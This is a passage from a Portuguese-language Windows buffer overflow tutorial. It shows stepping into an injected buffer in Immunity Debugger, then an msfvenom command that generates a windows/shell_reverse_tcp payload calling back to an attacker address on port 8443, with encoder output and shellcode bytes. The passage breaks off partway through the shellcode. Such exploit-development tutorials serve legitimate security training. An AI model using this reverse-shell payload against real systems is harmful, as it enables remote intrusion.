 ![Immunity.](/std/winbof/winbof-14.png)

Após o programa parar em nosso breakpoint, podemos clicar em “F7” para avançar para próxima instrução, e veremos que caímos exatamente em nosso buffer de “C”.

## GERANDO O SHELLCODE E ORGANIZANDO O EXPLOIT

Para gerar nosso shellcode, vamos utilizar outro programa da suide MSF, o msfvenom, onde vamos configurar a conexão reversa com nossa máquina atacante.

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.12 lport=8443 -b '\x00' -v shellcode -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1965 bytes
shellcode =  b""
shellcode += b"\xb8\x39\x90\x2e\x4f\xda\xc9\xd9\x74\x24\xf4"
shellcode += b"\x5f\x2b\xc9\xb1\x52\x31\x47\x12\x83\xc7\x04"
shellcode += b"\x03\x7e\x9e\xcc\xba\x7c\x76\x92\x45\x7c\x87"
shellcode += b"\xf3\xcc\x99\xb6\x33\xaa\xea\xe9\x83\xb8\xbe"
shellcode += b"\x05\x6f\xec\x2a\x9d\x1d\x39\x5d\x16\xab\x1f"
shellcode += b"\x50\xa7\x80\x5c\xf3\x2b\xdb\xb0\xd3\x12\x14"
shellcode += b"\xc5\x12\x52\x49\x24\x46\x0b\x05\x9b\x76\x38"
shellcode += b"\x53\x20\xfd\x72\x75\x20\xe2\xc3\x74\x01\xb5"
shellcode += b"\x58\x2f\x81\x34\x8c\x5b\x88\x2e\xd1\x66\x42"
shellcode += b"\xc5\x21\x1c\x55\x0f\x78\xdd\xfa\x6e\xb4\x2c"
shellcode += b"\x02\xb7\x73\xcf\x71\xc1\x87\x72\x82\x16\xf5"
```